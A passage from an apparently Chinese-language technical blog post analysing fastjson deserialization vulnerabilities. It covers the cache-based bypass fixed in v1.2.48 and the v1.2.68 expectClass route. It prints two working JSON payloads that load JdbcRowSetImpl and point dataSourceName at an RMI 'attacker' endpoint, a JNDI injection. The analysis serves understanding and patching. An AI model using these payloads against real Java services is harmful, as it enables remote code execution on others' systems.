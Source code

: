 

这样，攻击就变成了这样：

```json
// 第一次加载进缓存
{
    "@type":"java.lang.Class",
    "val":"com.sun.rowset.JdbcRowSetImpl"
}
```

```json
// 第二次进行攻击
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://localhost:1099/attacker",
    "autoCommit":true
}
```



于是在 **v1.2.48** 中，fastjson 修复了这个 bug，在 `MiscCodec` 中，处理 Class 类的地方，默认设置 cache 为 `false`，这样攻击类就不会被缓存了，也就不会被获取到了。



在之后的多个版本中，黑客与 fastjson 又继续一直都在绕过黑名单、添加黑名单中进行周旋。直到后来， 黑客在 **v1.2.68** 版本中又发现了一个新的漏洞利用方式。



在 fastjson JavaBean的反序列化方法中，当还有一个字段的 key 也是 `@type` 时，就会把这个 value 当做类名，然后进行一次 checkAutoType 检测，并且校验对应的值是否为 **expectClass** 的子类型，如果都符合，那么校验就会通过校验。  

![](../images/2021/04/01/034.png)
